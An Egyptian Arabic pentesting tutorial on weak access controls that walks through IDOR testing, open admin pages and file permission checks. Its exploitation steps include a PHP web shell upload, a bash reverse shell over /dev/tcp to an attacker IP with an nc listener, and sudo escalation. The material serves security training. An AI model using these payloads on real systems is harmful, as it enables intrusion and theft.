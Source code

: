 # **1. إيه هو Weak Access Controls؟**

## **الشرح العميق:**
"Weak Access Controls" يعني إن التحكم في مين يقدر يدخل أو يعمل حاجة في نظام أو تطبيق (زي موقع ويب أو سيرفر) مضبوط بشكل ضعيف أو مكسور. يعني المفروض يكون فيه قواعد صارمة تحدد مين يشوف إيه ويعمل إيه (زي إن المستخدم العادي ما يشوفش بيانات الأدمن)، لكن لما القواعد دي ضعيفة، أي حد يقدر يتجاوزها ويوصل لأماكن أو بيانات المفروض ممنوعة عليه. ده بيحصل كتير في الويب بسبب سوء تصميم أو إعدادات غلط.

- **أمثلة:** 
  - مستخدم عادي يقدر يشوف حساب مستخدم تاني بتغيير رقم في الرابط.
  - صفحة أدمن مفتوحة من غير ما تتأكد مين اللي بيدخلها.

## **الأدوات والأوامر العملية:**
### 1. **فحص الوصول في الويب:**
   - لو موقع فيه رابط زي: `http://target.com/user?id=123`.
   - جرب: `http://target.com/user?id=124` -> لو فتح حساب حد تاني، يبقى Access Control ضعيف.

### 2. **فحص المجلدات:**
   - `curl -I http://target.com/admin/` -> لو رجع `200 OK` بدل `403 Forbidden`، يعني الصفحة مفتوحة.

### 3. **فحص السيرفر:**
   - لو وصلت لـ Shell:
     - `ls -l /var/www/html/` (لينكس) -> تشوف صلاحيات الملفات.
     - `icacls "C:\inetpub\wwwroot"` (ويندوز) -> لو `Everyone:(F)`، يعني مفتوح.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط بواب على العمارة بس ناسي تقفله، أي حد يقدر يخش يلعب جوا! Weak Access Controls يعني الباب مفتوح والكل يعمل اللي عايزه."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما Access Controls تبقى ضعيفة، بيحصل كوارث لأن المهاجم يقدر:
- **يوصل لبيانات حساسة:** زي بيانات مستخدمين أو أسرار الشركة.
- **يعمل تصعيد أفقي:** يدخل على حسابات مستخدمين تانيين (Horizontal Privilege Escalation).
- **يعمل تصعيد عمودي:** يوصل لصلاحيات أدمن أو يتحكم في النظام (Vertical Privilege Escalation).
- **يخرب النظام:** يعدل أو يمسح حاجات مهمة.

في الـ Pentesting، الثغرة دي بتكون ذهب لأنها بتخليك تتحرك بحرية في النظام من غير ما حد يوقفك.

## **الأدوات والأوامر العملية:**
### 1. **استغلال في الويب:**
   - لو لقيت `http://target.com/profile?id=123`:
     - جرب: `http://target.com/profile?id=1` -> لو فتح حساب الأدمن، يبقى ضعيف.
   - أداة: Burp Suite -> Intercept الطلب وعدل الـ ID.

### 2. **تجاوز صفحات الأدمن:**
   - `http://target.com/admin` -> لو مفتوحة بدون تسجيل دخول:
     - جرب: `http://target.com/admin/settings.php`.

### 3. **استغلال صلاحيات الملفات:**
   - في لينكس: `echo "whoami" > /var/www/html/test.sh` -> لو نفذته وطلع `root`، يبقى مفتوح.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب بيتك من غير حارس، أي حد يخش ياخد حاجة أو يخرب! المهاجم يلاقي الباب مفتوح، يبقى الكبير بتاع الحتة على طول."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الضعف ده عشان تتجاوز القيود وتاخد وصول أعلى أو تسرق بيانات.
- **مثال واقعي:** لو لقيت صفحة أدمن مفتوحة، تدخل عليها وتتحكم في الموقع.

## **خلاصة بالعامية المصرية:**
"لما تلاقي Access Controls ضعيفة، زي ما تكون لقيت طريق فرعي مفتوح في لعبة، بتستخدمه عشان تكسب وتبقى الكبير بتاع الماتش!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: اختبار Access Controls**
- جرب في المتصفح:
  - `http://192.168.1.10/user?id=123` -> غيرها لـ `id=124` أو `id=1`.
  - لو فتحت حساب حد تاني، يبقى Access Control ضعيف.
- جرب صفحات حساسة:
  - `http://192.168.1.10/admin/` -> لو مفتوحة بدون login، يبقى ذهب.

## **الخطوة 3: استغلال أفقي**
- لو لقيت صفحة زي `http://192.168.1.10/profile?id=123`:
  - عدل الـ ID لـ `1` أو `999`:
    - `http://192.168.1.10/profile?id=1`.
  - لو جابلك بيانات أدمن (زي كلمة سر)، استخدمها.

## **الخطوة 4: استغلال عمودي**
- لو لقيت `/admin/` مفتوح:
  - جرب: `http://192.168.1.10/admin/settings.php`.
  - لو فيه حقل Upload:
    - ارفع Shell: `<?php system($_GET['cmd']); ?>` كـ `shell.php`.
    - افتح: `http://192.168.1.10/admin/shell.php?cmd=id` -> `www-data`.

## **الخطوة 5: تصعيد الصلاحيات**
- من الـ Shell:
  - `id` -> `www-data`.
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `sudo -l` -> لو لقيت حاجة زي `sudo /bin/bash`، نفذها.

## **الخطوة 6: توثيق**
- سجل كل الصفحات أو البيانات اللي وصلتلها.
- قدم تقرير يوضح إزاي Access Controls الضعيفة فتحت الباب.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت بيت مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! Access Controls لما تبقى ضعيفة، تبقى طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Weak Access Controls هي ثغرة كبيرة لأنها بتخلّي أي حد يقدر يتجاوز القيود ويوصل لأماكن ممنوعة. في الـ Pentesting، دور عليها في الروابط، الصفحات، أو الملفات، استغلها عشان تسرق بيانات أو تاخد Shell، ووري العميل إن نظامه زي سوق مفتوح للكل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!
